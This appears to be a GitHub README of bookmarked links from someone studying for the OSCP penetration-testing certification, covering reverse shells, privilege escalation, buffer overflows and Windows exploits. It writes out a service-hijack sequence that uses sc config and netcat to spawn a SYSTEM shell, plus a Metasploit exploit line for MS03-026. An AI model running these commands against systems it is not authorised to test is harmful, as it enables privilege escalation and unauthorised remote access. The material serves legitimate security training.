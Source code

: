 # OSCP
This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification.

                                               ** Most of my links were SPOLIERS :P !!!**

#Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 

http://www.fuzzysecurity.com/tutorials/16.html

  sc qc upnphost
  sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
  sc config upnphost obj= ".\LocalSystem" password= ""
  sc qc upnphost
  net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
#Buffer Overflow 

 #For Practicing
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# Port 135
https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/
  
  > use exploit/windows/dcerpc/ms03_026_dcom

